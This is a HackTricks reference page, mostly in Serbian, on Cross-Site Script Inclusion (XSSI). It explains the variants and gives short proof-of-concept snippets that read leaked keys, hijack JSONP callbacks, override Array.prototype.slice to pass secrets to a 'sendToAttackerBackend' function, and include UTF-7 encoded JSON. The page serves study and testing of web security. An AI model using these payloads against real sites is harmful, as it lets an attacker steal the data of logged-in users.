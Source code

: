 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** je ranjivost koja proističe iz prirode `script` taga u HTML-u. Za razliku od većine resursa, koji podliježu **Same-Origin Policy (SOP)**, skripte se mogu uključivati iz različitih domena. Ovo ponašanje je zamišljeno da olakša korišćenje biblioteka i drugih resursa hostovanih na različitim serverima, ali takođe uvodi potencijalni sigurnosni rizik.

### Key Characteristics of **XSSI**:
- **Zaobilaženje SOP**: Skripte su izuzete iz **Same-Origin Policy**, što im omogućava da se uključuju između domena.
- **Izloženost podacima**: Napadač može iskoristiti ovo ponašanje da pročita podatke učitane putem `script` taga.
- **Uticaj na dinamički JavaScript/JSONP**: **XSSI** je posebno relevantan za dinamički JavaScript ili **JSON with Padding (JSONP)**. Ove tehnologije često koriste informacije "ambient-authority" (kao što su kolačići) za autentifikaciju. Kada se zahteva skripta sa drugog hosta, ove akreditive (npr. kolačiće) automatski uključuju u zahtev.
- **Curjenje autentifikacionih tokena**: Ako napadač može da prevari korisnikov pretraživač da zatraži skriptu sa servera koji kontroliše, može imati pristup osetljivim informacijama sadržanim u tim zahtevima.

### Types

1. **Static JavaScript** - Ovo predstavlja konvencionalni oblik XSSI.
2. **Static JavaScript with Authentication** - Ova vrsta je posebna jer zahteva autentifikaciju za pristup.
3. **Dynamic JavaScript** - Uključuje JavaScript koji dinamički generiše sadržaj.
4. **Non-JavaScript** - Odnosi se na ranjivosti koje ne uključuju JavaScript direktno.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
U ovom pristupu, privatne informacije su ugrađene unutar globalno dostupne JavaScript datoteke. Napadači mogu identifikovati ove datoteke koristeći metode kao što su čitanje datoteka, pretrage ključnih reči ili regularne izraze. Kada se lociraju, skripta koja sadrži privatne informacije može se uključiti u zlonamerni sadržaj, omogućavajući neovlašćen pristup osetljivim podacima. Primer tehnike eksploatacije je prikazan u nastavku:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Ove vrste XSSI napada uključuju poverljive informacije koje se dinamički dodaju u skriptu kao odgovor na korisnikov zahtev. Detekcija se može izvršiti slanjem zahteva sa i bez kolačića i upoređivanjem odgovora. Ako se informacije razlikuju, to može ukazivati na prisustvo poverljivih informacija. Ovaj proces se može automatizovati korišćenjem alata kao što je [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp ekstenzija.

Ako se poverljivi podaci čuvaju u globalnoj promenljivoj, mogu se iskoristiti slične metode kao u Regular XSSI. Međutim, ako su poverljivi podaci uključeni u JSONP odgovor, napadači mogu preuzeti funkciju povratnog poziva kako bi dobili informacije. To se može uraditi ili manipulisanjem globalnim objektima ili postavljanjem funkcije koja će se izvršiti u JSONP odgovoru, kao što je prikazano u nastavku:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Za promenljive koje se ne nalaze u globalnom imenskom prostoru, *prototype tampering* se ponekad može iskoristiti. Ova tehnika koristi dizajn JavaScript-a, gde interpretacija koda uključuje prolazak kroz prototip lanac kako bi se locirala pozvana svojstva. Predefinisanjem određenih funkcija, kao što je `Array`-ova `slice`, napadači mogu pristupiti i otkriti ne-globalne promenljive:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Dalje informacije o napadnim vektorima mogu se naći u radu istraživača bezbednosti [Sebastian Lekies](https://twitter.com/slekies), koji održava listu [vektora](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Istraživanje Takeshija Terade uvodi još jedan oblik XSSI, gde se Non-Script datoteke, kao što su CSV, otkrivaju preko različitih domena tako što se uključuju kao izvori u `script` tag. Istorijski primeri XSSI, kao što su napad Jeremiah Grossmana iz 2006. godine za čitanje kompletnog Google adresara i curenje JSON podataka Joea Walkera iz 2007. godine, ističu ozbiljnost ovih pretnji. Pored toga, Gareth Heyes opisuje varijantu napada koja uključuje UTF-7 kodirani JSON kako bi se izbegao JSON format i izvršili skripti, što je efikasno u određenim pregledačima:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
